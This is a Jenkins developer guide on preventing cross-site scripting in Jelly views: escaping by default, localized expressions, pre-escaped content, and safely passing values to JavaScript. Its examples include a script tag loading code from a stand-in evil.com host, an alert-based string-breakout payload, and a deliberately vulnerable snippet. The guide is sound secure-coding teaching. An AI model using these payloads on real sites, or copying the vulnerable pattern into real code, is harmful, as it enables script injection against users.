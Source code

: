= Preventing Cross-Site Scripting in Jelly views

// Adapted from https://wiki.jenkins.io/display/JENKINS/Jelly+and+XSS+prevention

Cross-Site Scripting (XSS) is a web application vulnerability that allows users with the ability to control what gets shown to other users on a web page to run scripts in their browser.

Jenkins displays content written by users with different levels of access in many different areas, and the Jelly files typically contain placeholders like this:

[source, xml]
----
<h1>Project ${it.name}</h1>
----

If `it.name` evaluates to a string containing HTML tags, those will be placed verbatim into the output, for example:

[source, html]
----
<h1>Project <script src="https://evil.com/exploit-jenkins.js"></script>my java build</h1>
----

[NOTE]
In old versions of Jenkins, use of the `<st:out>` tag allowed escaping specific expressions.
This document discusses the much safer escape by default approach (below).

== Escaping by Default

Since Jenkins 1.339, it is possible to instruct the Jelly processor to escape `+${...}+` expressions like the above by default.
To do that, place the following XML processing instruction in the first line of the Jelly document:

[source, xml]
----
<?jelly escape-by-default='true'?>
<!-- rest of the document here -->
----

Note that this only affects the use of `+${...}+` among PCDATA, and not in attribute values, so that Jelly tag invocations don't result in surprising behavior.

=== Keep Your Your Toolchain Updated

Since plugin POM 1.596, Jelly files are required to escape variables by default, and the build fails if such problems are found.
Therefore it is strongly recommended to use at least that version of the plugin parent POM to prevent accidental XSS vulnerabilities.

It's recommended to always use the newest available 2.x or newer plugin parent POM.
xref:plugin-development:updating-parent.adoc[Learn more.]

== Escaping and Localized Expressions

Localized expressions of the form `+${%expression}+` are also affected by the above in the following ways:

1. The localized expression (read from a resource file) is not escaped, and allows inline HTML.
2. Any arguments to the expression are escaped.

This means the following works as expected (rendering the `a` tag), and still prevents XSS problems in the user-specified name:

.index.jelly
[source, xml]
----
<?jelly escape-by-default='true'?>
<p>${%blurb(it.displayName)}</p>
----

.index.properties
[source]
----
blurb=<a href="https://jenkins.io/">{0}</a>
----

== Rendering Pre-Escaped Content

In rare cases, it might be necessary to render content that has previously been escaped or otherwise processed, without further escaping.
A common reason to do this is to support formatting using the jenkinsdoc:MarkupFormatter[markup formatter configured for the current Jenkins instance], with might support a {plugin}antisamy-markup-formatter[safe subset of HTML], or other markup languages, like {plugin}pegdown-formatter[Markdown].
In those cases, the security is controlled by the markup formatter.

To do that, use the `<j:out>` Jelly tag:

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <j:out value="${app.markupFormatter.translate(it.description)}"/>
</j:jelly>
----

To pass arguments to localized expressions without escaping them in escaped-by-default Jelly files, wrap them in a call to `Functions#rawHtml`:

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <h1>${%welcomeMessage(h.rawHtml(it.markupFormattedName)}</h1>
</j:jelly>
----

[WARNING]
If the source of the argument to `j:out` or `Functions#rawHtml` isn't completely trusted, these might result in an XSS vulnerability.

== Passing values to JavaScript

=== The bad way

In a situation where you need to pass information to JavaScript, you might inject the value directly inside the script like in the following snippet. 

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <h1>Random title</h1>
  <div id="target-div"></div>

  <script>
     var textToInsert = "${variableFromJava}";
     document.querySelector('#target-div').innerText = textToInsert;
  </script>
</j:jelly>
----

In this case, if the `variableFromJava` comes from an unsafe source, it could be used to create a cross-site scripting (XSS) attack.
For example the following code will be executed: `";alert(123);"`. 
The JavaScript sent to the client will be:

[source, javascript]
----
var textToInsert = "";alert(123);"";
----

[NOTE]
Within the payload, we close the existing double quote, then execute our code and finally open a double quote to match the existing one.
That will result in a script without any format error.

=== The good way

If you need to pass a variable to your JavaScript, we strongly recommend to use this approach instead:

[source, xml]
----
<?jelly escape-by-default='true'?>
<j:jelly xmlns:j="jelly:core">
  <h1>Random title</h1>
  <div id="target-div" data-inserted-from-java="${variableFromJava}"></div>

  <script>
     var targetDiv = document.querySelector('#target-div');
     var textToInsert = targetDiv.getAttribute('data-inserted-from-java'); 
     // equivalent of: targetDiv.dataset.insertedFromJava
     targetDiv.innerText = textToInsert;
  </script>
</j:jelly>
----

// link: and the ++ are required due to the * symbol in the URL
The use of the `data-*` attributes allow the developer either to use `getAttribute` or the `dataset` property, 
for more information see the link:++https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes#attr-data-*++[MDN documentation].

In this case you are taking advantage of the Jelly escape mechanism to ensure that the result is just a String. 
If we try to inject a `"`, it will be automatically converted to `&amp;quot;`.

In the previous (vulnerable) example, the injected code was inside a context of "code to be interpreted".
